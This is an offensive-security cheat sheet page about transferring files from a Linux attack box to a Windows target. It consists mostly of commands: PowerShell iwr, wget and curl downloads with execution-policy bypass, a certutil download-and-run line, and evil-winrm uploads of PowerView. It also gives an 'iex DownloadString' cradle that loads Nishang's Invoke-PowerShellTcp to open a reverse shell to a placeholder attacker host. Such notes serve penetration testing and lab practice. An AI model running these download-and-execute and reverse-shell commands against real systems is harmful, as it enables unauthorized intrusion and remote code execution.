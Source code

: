 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["Curl", "Http File Transfer", "File Transfer", "Windows", "Evil-Winrm", "IEX", "IWR", "certutil"]
---
```


{{< tab set1 tab1 >}}Powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

```console {class=sample-code}
$ python3 -m http.server 8443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

```console
# Wget
powershell -ep bypass wget <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

<small>*Note: curl and wget are alias to Invoke-WebRequest*</small>

```console
# Load into memory and Run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/<FILE>');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -UseBasicParsing)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> upload /home/kali/PowerView.ps1 C:\ProgramData\PowerView.ps1
                                        
Info: Uploading /home/kali/PowerView.ps1 to C:\ProgramData\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

{{< /tabcontent >}}
